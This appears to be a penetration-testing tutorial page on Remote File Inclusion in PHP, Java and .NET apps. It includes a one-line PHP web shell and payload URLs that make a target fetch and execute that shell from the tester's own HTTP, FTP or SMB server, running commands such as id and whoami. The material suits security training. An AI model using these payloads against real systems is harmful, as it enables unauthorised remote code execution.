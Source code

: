 # Remote File Inclusion (RFI)

**Remote File Inclusion (RFI)** is a vulnerability that allows an attacker to include remote files in a web application. This can lead to significant security risks, including remote code execution. Here’s a summary of key points and code examples related to RFI.

***

### 🔍 Local vs. Remote File Inclusion

RFI occurs when a vulnerable function allows the inclusion of remote files. This can be exploited to execute malicious scripts hosted by the attacker. The following functions can be vulnerable to RFI:

| Function                  | Read Content | Execute | Remote URL |
| ------------------------- | ------------ | ------- | ---------- |
| **PHP**                   |              |         |            |
| include()/include\_once() | ✅            | ✅       | ✅          |
| file\_get\_contents()     | ✅            | ❌       | ✅          |
| **Java**                  |              |         |            |
| import                    | ✅            | ✅       | ✅          |
| **.NET**                  |              |         |            |
| @Html.RemotePartial()     | ✅            | ❌       | ✅          |
| include                   | ✅            | ✅       | ✅          |

#### Key Differences

* **RFI** allows including remote files, while **LFI** only allows local files.
* RFI may not be possible if the function does not permit remote URLs or if server configurations block it.

***

### ✅ Verifying RFI Vulnerability

To check if a web application is vulnerable to RFI, we can look for the `allow_url_include` setting in PHP. This can be done using LFI techniques:

{% code overflow="wrap" %}
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```
{% endcode %}

If the output shows `allow_url_include = On`, we can proceed to test for RFI by attempting to include a local URL:

{% code overflow="wrap" %}
```bash
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```
{% endcode %}

If the page is included and executed, the application is vulnerable to RFI.

***

### ⚙️ Remote Code Execution with RFI

To gain remote code execution, we need to create a malicious script. For example, a simple PHP web shell can be created as follows:

```bash
bashCopy Codeecho '<?php system($_GET["cmd"]); ?>' > shell.php
```

#### Hosting the Script

**Using HTTP**

Start a simple HTTP server using Python:

```bash
bashCopy Codesudo python3 -m http.server <LISTENING_PORT>
```

Then, include the shell script via RFI:

{% code overflow="wrap" %}
```bash
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```
{% endcode %}

**Using FTP**

Alternatively, host the script using an FTP server:

```bash
sudo python -m pyftpdlib -p 21
```

Include the script using the FTP protocol:

```bash
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

**Using SMB**

If the target is a Windows server, we can use SMB for RFI:

```bash
impacket-smbserver -smb2support share $(pwd)
```

Include the script using a UNC path:

```bash
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

#### Important Notes

* Ensure that the server is on the same network for SMB to work effectively.
* Be cautious of firewalls that may block HTTP or FTP requests.

***

\
